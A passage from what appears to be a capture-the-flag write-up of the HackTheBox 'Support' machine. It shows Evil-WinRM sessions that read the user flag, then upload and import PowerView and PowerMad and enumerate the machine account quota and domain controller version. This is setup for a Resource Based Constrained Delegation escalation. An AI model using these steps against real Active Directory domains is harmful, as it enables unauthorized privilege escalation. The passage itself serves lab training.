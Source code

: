 **user.txt:**
```
*Evil-WinRM* PS C:\Users\support\Documents> type ..\Desktop\user.txt
{Redacted}
```

# Privilege Escalation

## support to Administrator

According to [HackingArticles](https://www.hackingarticles.in/domain-escalation-resource-based-constrained-delegation/), we can leverage one of the domain escalation methods, **Resource Based Constrained Delegation**.

**First, I'll upload `PowerView.ps1` and `PowerMad.ps1` via `evil-winrm`:**
```
*Evil-WinRM* PS C:\Users\support\Documents> upload /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powermad.ps1
*Evil-WinRM* PS C:\Users\support\Documents> upload /usr/share/powershell-empire/empire/server/data/module_source/situational_awareness/network/powerview.ps1
```

**Then, import those modules:**
```
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\powerview.ps1
*Evil-WinRM* PS C:\Users\support\Documents> Import-Module .\powermad.ps1
```

In an Active Directory environment, **a domain user can add a computer object into the domain**, we can check that via `Get-DomainObject`:

```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainObject -Identity 'dc=support,dc=htb' -Domain support.htb

[...]
ms-ds-machineaccountquota                   : 10
[...]
```

Yep, we can add 10 computer objects into the domain.

**Next, I'll check the machine's version:**
```
*Evil-WinRM* PS C:\Users\support\Documents> Get-DomainController

[...]
OSVersion                  : Windows Server 2022 Standard
[...]
```

**It's running `Windows Server 2022`.**

Finally, let's **check the target computer doesn't have the attribute `msds-allowedtoactonbehalfofotheridentity` set.**
